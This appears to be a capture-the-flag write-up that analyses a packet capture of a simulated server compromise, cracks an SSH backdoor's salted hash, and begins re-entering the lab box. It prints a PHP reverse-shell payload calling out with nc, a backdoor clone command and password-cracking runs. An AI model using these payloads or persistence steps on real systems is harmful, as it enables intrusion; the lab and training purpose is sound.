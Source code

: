 # Overpass 2 - Hacked
* SOC team noticed suspicious activity on late night shift.
* Packets captured as attack happened.
## Forensics - Analyse the PCAP
1. What was the URL of the page they used to upload a reverse shell?
   * Follow TCP Stream (`tcp.stream eq 1`).
```
POST /development/upload.php HTTP/1.1
```
2. What payload did the attacker use to gain access?
   * Follow TCP Stream (`tcp.stream eq 1`).
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
3. What password did the attacker use to privesc?
   * Follow TCP Stream (`tcp.stream eq 3`).
```
[sudo] password for james: whenevernoteartinstant
```
4. How did the attacker establish persistence?
   * Follow TCP Stream (`tcp.stream eq 3`).
```
git clone https://github.com/NinjaJc01/ssh-backdoor
```
5. Using the fasttrack wordlist, how many of the system passwords were crackable?
   1. Copy and paste exposed shadow file from PCAP `tcp.stream eq3` into "shadow" file.
   2. Run JtR against shadowfile.
```
john --wordlist=/usr/share/wordlists/fasttrack.txt shadow
[...snip...]
secret12         (bee)     
abcd123          (szymex)     
1qaz2wsx         (muirland)     
secuirty3        (paradox)
[...snip...]
```
## Research - Analyse the code
1. What's the default hash for the backdoor?
   * [ssh-backdoor GitHub respository](https://github.com/NinjaJc01/ssh-backdoor) lists hash within "hash" variable in "main.go" code.
3. What's the hardcoded salt for the backdoor?
   * [ssh-backdoor GitHub respository](https://github.com/NinjaJc01/ssh-backdoor) lists salt within "passwordHandler" function in "main.go" code.
5. What was the hash that the attacker used? - go back to the PCAP for this!
   * Follow TCP Stream (`tcp.stream eq 3`).
```
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```
7. Crack the hash using rockyou and a cracking tool of your choice. What's the password?
* Copy and paste hash into "hash" file.
  * Suffix the hash with `:` then the salt.
* "ssh-backdoor" backdoor has "hashPassword" function within "main.go" code shows hashing algorithm is salted SHA512.
```
func hashPassword(password string, salt string) string {
	hash := sha512.Sum512([]byte(password + salt))
	return fmt.Sprintf("%x", hash)
}
```
* Search for SHA512 password+hash format on [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example_hashes).
```
1710 	sha512($pass.$salt) 
```
* Run hashcat against hash.
  * `-m` specifies the hash type.
  * `-a` specifies the attack type.
    * `0` is straight attack type. 
```
hashcat -m 1710 -a 0 hash /usr/share/wordlists/rockyou.txt

[...snip...]
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 0 secs

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1710 (sha512($pass.$salt))
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Tue Mar  5 16:48:43 2024 (1 sec)
Time.Estimated...: Tue Mar  5 16:48:44 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   228.0 kH/s (0.06ms) @ Accel:59 Loops:1 Thr:1 Vec:2
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 17228/14344385 (0.12%)
Rejected.........: 0/17228 (0.00%)
Restore.Point....: 16992/14344385 (0.12%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: yomisma -> october19
Hardware.Mon.#1..: Util: 21%

Started: Tue Mar  5 16:48:25 2024
Stopped: Tue Mar  5 16:48:45 2024
```
## Attack - Get back in!
* Paradox needs someone to take control of the Overpass production server again.
* There's flags on the box that Overpass can't afford to lose by formatting the server!
2. What's the user flag?
3. What's the root flag?

### Nmap scan
```
nmap -Pn -sC -p- -sV -oN TARGET_IP_scan.nmap TARGET_IP

map scan report for 10.10.75.252                                                                                         
Host is up (0.026s latency).                                                                                             
Not shown: 65532 closed tcp ports (conn-refused)                                                                         
PORT     STATE SERVICE VERSION                                                                                           
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                      
| ssh-hostkey:                                                                                                           
|   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)                                                           
|   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)                                                          
|_  256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (ED25519)                                                        
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                    
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                             
|_http-title: LOL Hacked                                                                                                 
2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)                                                             
| ssh-hostkey:                                                                                                           
|_  2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)                                                           
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Detect hidden directories using GoBuster
```
gobuster dir --url http://TARGET_IP/ -w /usr/share/wordlists/dirb/common.txt > gobuster.txt

/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/aboutus              (Status: 301) [Size: 314] [--> http://10.10.75.252/aboutus/]
/.htaccess            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.75.252/css/]
/downloads            (Status: 301) [Size: 316] [--> http://10.10.75.252/downloads/]
/img                  (Status: 301) [Size: 310] [--> http://10.10.75.252/img/]
/index.html           (Status: 200) [Size: 815]
/server-status        (Status: 403) [Size: 277]
```
### Browse to webserver on port 80
1. The attacker defaced the website. What message did they leave as a heading - "H4ck3d by CooctusClan"

### Attempt to SSH to target host using credentials exposed via shadowfile
```
─$ ssh bee@10.10.75.252       
The authenticity of host '10.10.75.252 (10.10.75.252)' can't be established.
ED25519 key fingerprint is SHA256:M+alDmfQ9SPk8CLKIRe6QQD9sNcr/ptoDNbQLZDzIqs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.75.252' (ED25519) to the list of known hosts.
bee@10.10.75.252's password: 
Permission denied, please try again.
                                                                             
ssh szymex@10.10.75.252
szymex@10.10.75.252's password: 
Permission denied, please try again.

ssh muirland@10.10.75.252
muirland@10.10.75.252's password: 
Permission denied, please try again.

ssh paradox@10.10.75.252
paradox@10.10.75.252's password: 
Permission denied, please try again.
```
